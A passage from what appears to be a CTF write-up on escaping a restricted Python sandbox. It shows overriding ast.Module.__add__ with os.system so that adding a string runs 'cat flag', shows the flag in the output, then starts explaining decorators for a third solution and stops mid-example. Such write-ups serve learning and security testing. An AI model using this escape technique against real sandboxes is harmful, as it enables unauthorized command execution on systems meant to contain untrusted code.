 *(Note: Changing only `b.__add__` instead of `Baz.__add__` does not work as intended. This is because when doing `b+x`, the method is looked up in the class of `b`.)*

However, we still have the limitation that we cannot create objects. Well, we have access to the already existing variables and can abuse them. For example, we can use the `tree` variable.

```python
In [16]: tree = compile('x=1', "input.py", 'exec', flags=ast.PyCF_ONLY_AST) # just like the challenge's code

In [17]: tree
Out[18]: <ast.Module at 0x7f0c39487940>
```

and we can modify the `ast.Module` class:

```python
ast.Module.__add__=os.system
tree+'cat flag'
--END
```

and the response contains the flag!

```log
-- Executing safe code:
CTF{CzeresniaTopolaForsycja}
```

### Solution 3 - Decorators

This is a nice chance to dive into python decorators, which I haven't really ever used. We all know that decorators are syntactic sugar. Assume the following piece of code:

```python
def uppercase_decorator(func):
  def wrapper():
    res = func()
    return res.upper()
  return wrapper
```

Then, the following code snippets are equivalent:

<table>
<tr>
<td>

```python
@uppercase_decorator
def hello_world():
  return 'hello_world'
```
</td>
<td>

```python
def hello_world():
  return 'hello_world'
hello_world = uppercase_decorator(hello_world)
```
